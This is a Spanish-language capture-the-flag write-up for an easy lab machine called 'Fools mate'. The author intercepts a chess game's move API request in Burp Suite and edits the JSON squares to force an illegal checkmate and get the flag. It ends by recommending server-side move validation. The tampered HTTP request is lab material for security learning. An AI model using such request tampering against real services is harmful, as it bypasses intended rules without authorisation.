

 ## Resumen 
 Fools mate es una maquina de dificultad facil en la que nos piden que ganemos a un bot en ajedrez pero de otra forma diferente a la convencional.


## Analisis de la web

Me piden que entre por un navegador a la ip proporcionada.

Al entrar veo que es una web de ajedrez en la que ya hay una partida empezada y pide que tenemos que ganarle en un movimiento. Y el unico movimiento que se puede hacer para completarlo al intentar hacerlo sale un mensaje que pone que nos apagara el ordenador si intentamos eso.


## Explotacion

Al ver eso intento interceptar con burpsuite la peticion que se mada al mover una pieza.
```
POST /api/move HTTP/1.1
Host: vmip
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://vmip/
Content-Type: application/json
Content-Length: 23
Origin: http://vmip
Connection: keep-alive
Priority: u=0

{"from":"a1","to":"a7"}
```

Veo que hace una peticion a la api para moverlo y abajo pone desde que posicion se mueve y hasta cual. Al ver esto decido cambiarlo para ver si modificando la peticion consigo hacerlo en vez de usar el metodo tradicional.
```
POST /api/move HTTP/1.1
Host: vmip
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://<session_id>/
Content-Type: application/json
Content-Length: 23
Origin: http://<session_id>
Connection: keep-alive
Priority: u=0

{"from":"a1","to":"a8"}
```

Y al volver a mandar la peticion veo que se ha completado:
```
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: sid=<session_id>; Path=/; HttpOnly; SameSite=Lax
Content-Type: application/json; charset=utf-8
Content-Length: 155
ETag: W/"9b-4UJFSVz7fqu+CivQPQPb7IbmWH0"
Date: Sun, 20 Sep 2026 12:05:09 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"ok":true,"move":"a1a8","fen":"R5k1/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1","status":"checkmate","turn":"b","winner":"white","flag":"THM{flag}"}
```

Esto pasa por una falta de la implementacion de reglas en el backend. El servidor confía en que el cliente solo le va a mandar movimientos legales, porque en el uso normal (con el navegador) así es. Pero al ser una API REST accesible no hay nada que impida construir una peticion eligiendo las casillas que quieras.

## Mitigacion 
Validar las jugadas server-side con una libreria de ajedrez. Asi validando todo antes de aplicar el movimiento en vez de fiarte del cliente